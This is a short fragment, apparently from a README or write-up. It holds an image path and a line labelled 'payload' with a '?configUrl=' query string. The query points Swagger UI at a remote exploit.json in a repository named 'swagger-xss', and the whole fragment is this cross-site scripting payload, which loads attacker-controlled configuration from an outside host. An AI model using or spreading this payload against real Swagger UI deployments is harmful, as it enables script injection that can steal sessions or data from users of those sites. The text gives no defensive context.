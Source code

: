 payload:
`
??configUrl=https://raw.githubusercontent.com/randixploit/swagger-xss/refs/heads/main/exploit.json`
